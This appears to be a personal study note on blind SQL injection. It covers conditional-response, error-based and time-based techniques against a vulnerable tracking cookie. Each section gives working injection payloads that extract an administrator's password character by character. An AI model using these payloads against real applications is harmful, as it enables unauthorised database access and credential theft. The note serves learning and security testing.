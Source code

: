 ```yaml
---
Title: Blind SQLi
tags:
  - SQLi
  - BLINDSQL
---
```

Blind SQL is not necessarily being "blind", but rather looking at other intricacies the application returns whenever you inject a query. 

# Exploiting conditional responses

For example, we have this vulnerable cookie.
```
Cookie: TrackingId=abcdefghijklmnopqrstuvwxyz
```
> [!The query that the TrackingId uses ]
> ```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'abcdefghijklmnopqrstuvwxyz'

A successful query will return "Welcome!", and an unsuccessful one will return nothing. We can exploit this functionality by injecting arbitrary sql queries, and constantly checking if the query returns "Welcome!" or not.

> [!Example]
> ```sql
> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'abcdefghijklmnopqrstuvwxyz' ' AND '1'='1
> -- above returns true
> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'abcdefghijklmnopqrstuvwxyz' ' AND '1'='2
> -- above returns false

> [!Sample payload]
> ```sql
> -- SUBSTRING(string, position of the string, length of the string(usually 1))
> 
> xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
> -- this function is as follows, where the first letter of the password of administrator is greater than m

# Exploiting Error-Based Condition
Error based sql is focused on error messages that a website returns, and exploiting that to extract sensitive data from the database.

> [!Example]
> ```sql
> xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
> --- in simpler terms: if 1=2, execute 1/0 (1 divided by 0, which returns a database error), else, return 'a'
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a

We can exploit these errors, just like we did in [[Blind SQLi]].
> [!Sample Payload]
> ```sql
> xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
> --- If the condition is true, it should return an error, else, the condition will return true because of 'a' = 'a'

To further understand this, let's create the sample query:
> [!Sample query]
> ```sql
> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'some-id-here'
> --- now let's say for example this is our payload
> --- '||(SELECT '' FROM dual)'
> --- it will appear on the query that will be executed like this
> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'some-id-here'||(SELECT '' FROM dual)||'
> --- the inside parameter is like an eval, which returns the string ''.
> 

# Exploiting Time-Based Condition
Time-based sqli is using the delay functionality of sql, which we can exploit, together with the techniques we already used.

> [!Example]
> ```sql
> '; IF (1=2) WAITFOR DELAY '0:0:10'--
> -- if the response is true, it will trigger a 10 second delay before sending a response
'; IF (1=1) WAITFOR DELAY '0:0:10'--

> [!Sample payload]
> ```sql
> '; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--

# Blind sql with out-of-band interaction


